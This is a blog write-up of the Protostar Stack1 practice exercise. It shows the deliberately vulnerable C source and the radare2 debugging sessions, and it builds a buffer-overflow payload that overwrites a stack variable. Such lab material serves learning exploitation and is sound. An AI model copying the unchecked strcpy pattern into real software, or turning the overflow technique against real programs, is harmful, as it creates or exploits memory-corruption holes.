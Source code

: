 ```yaml
---
layout: post
section-type: post
title: Exploiting Protostar Stack1 using radare2
category: buffer_overflow
tags: [ 'buffer_overflow', 'stack_overflow', 'radare2', 'protostar', 'write_up' ]
---
```

# Exploiting Protostar Stack1

[Problem link](https://exploit-exercises.com/protostar/stack1/)

You can check previous problems here :

- [Stack0]({{site.baseurl}}/buffer_overflow/2017/12/16/exploiting_protostar_stack0.html))

## Problem source code

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
{% endhighlight %}

We will work in this problem as we do not have the C source code

## First we want to know more info about the binary

{% highlight shell-session %}
$ rabin2 -I stack1
arch     x86
binsz    23196
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    NONE
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As you can clearly see, our binary is a 32bit ELF file, not stripped, the file isn’t protected with canaries , pic, nx or relro.

## Let's have a look on what's happening inside the app

We will start the app inside Radare2 and have a look in Visual Mode to try understanding how it's working

{% highlight shell-session %}
[root:~/Downloads]# r2 -d stack1
Process with PID 10307 started...
= attach 10307 10307
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> aas
[0xb7fdba30]> dcu main
Continue until 0x08048464 using 1 bpsize
hit breakpoint at: 8048464
[0x08048464]> VV
{% endhighlight %}

{% highlight nasm %}
    .--------------------------------.
    |  0x8048487 ;[ga]               |
    | mov dword [local_5ch], 0       |
    |    ; [0xc:4]=-1                |
    |    ; 12                        |
    | mov eax, dword [arg_ch]        |
    | add eax, 4                     |
    | mov eax, dword [eax]           |
    | mov dword [local_4h], eax      |
    |    ; 0x1c                      |
    |    ; 28                        |
    | lea eax, dword [local_1ch]     |
    | mov dword [esp], eax           |
    | call sym.imp.strcpy;[ge]       |
    |    ; [0x5c:4]=-1               |
    |    ; '\'                       |
    |    ; 92                        |
    | mov eax, dword [local_5ch]     |
    | cmp eax, 0x61626364            |
    | jne 0x80484c0;[gf]             |
    `--------------------------------'
{% endhighlight %}

So this is the key line `cmp eax, 0x61626364`, so our main **Goal** is to override `$eax` with `0x61626364`

Now we’ll use a tool in radare’s framework called `ragg2`, which allows us to generate a cyclic pattern called [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) and check the exact offset where our payload overrides the buffer.

{% highlight shell-session %}
$ ragg2 -P 100 -r > payload.txt
$ r2 -d stack1
Process with PID 3427 started...
= attach 3427 3427
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> ood `! cat payload.txt`
Wait event received by different pid 3427
Process with PID 3458 started...
File dbg:///root/Downloads/stack1  AAABAACAAUAAV...AAcAAdAAeAAfAAgAAh reopened in read-write mode
= attach 3458 3458
3458
[0xb7fdba30]> dcu main
Continue until 0x08048464 using 1 bpsize
hit breakpoint at: 8048464
[0xb7fdba30]> V
{% endhighlight %}

- ood `! cat payload.txt`: reopen in debugger mode (with args)

In visual mode you can move step by step using `S` untill you reach the line before `cmp eax, 0x61626364`

{% highlight shell-session %}
[0x080484a7]> wopO eax
64
{% endhighlight %}

Now let's rewrite our payload and exploit the binary ** Notice that we are working with a little indean so `0x61626364` will be `\x64\x63\x62\x61` (Reversed)

{% highlight shell-session %}
$ python -c 'print "A" * 64 + "\x64\x63\x62\x61" + "B" * 20' > payload.txt
$ r2 -d stack1
Process with PID 6158 started...
= attach 6158 6158
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> ood `! cat payload.txt`
Wait event received by different pid 6158
Process with PID 6167 started...
File dbg:///root/Downloads/stack1  AAAAAAAA...AAAAdcbaBBBBBBBBBBBBBBBBBBBB reopened in read-write mode
= attach 6167 6167
6167
[0xb7fdba30]> dc
you have correctly got the variable to the right value
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
[0x42424242]>
{% endhighlight %}

And we did it ;)
